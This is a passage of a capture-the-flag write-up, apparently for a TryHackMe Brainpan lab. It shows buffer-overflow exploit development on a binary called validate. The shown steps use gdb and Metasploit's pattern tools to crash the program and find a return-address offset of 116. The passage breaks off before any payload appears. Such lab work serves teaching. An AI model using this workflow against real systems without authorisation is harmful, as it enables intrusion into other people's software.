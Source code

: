 I will use gdb on my local machine to develop the overflow payload.

Open the binary up in gdb:

```bash
$ gdb ./validate
GNU gdb (Debian 10.1-2) 10.1.90.20210103-git
Copyright (C) 2021 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./validate...
(gdb) 
```

#### validate offset

Let's find the offset, create the pattern first:

```bash
┌──(kali㉿kali)-[~/…/RxHack/THM/OFFENSIVEPENTESTPATH/BRAINPAN1]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 120             
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9
```

Feed this as input to our `./validate` program in gdb:

```bash
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9'")
Starting program: /home/kali/Documents/RxHack/THM/OFFENSIVEPENTESTPATH/BRAINPAN1/validate $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9'")

Program received signal SIGSEGV, Segmentation fault.
0x39644138 in ?? ()
```

Query the return address in our `pattern_offset`, to find the offset:

```bash
┌──(kali㉿kali)-[~/…/RxHack/THM/OFFENSIVEPENTESTPATH/BRAINPAN1]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 120 -q 39644138
[*] Exact match at offset 116
```
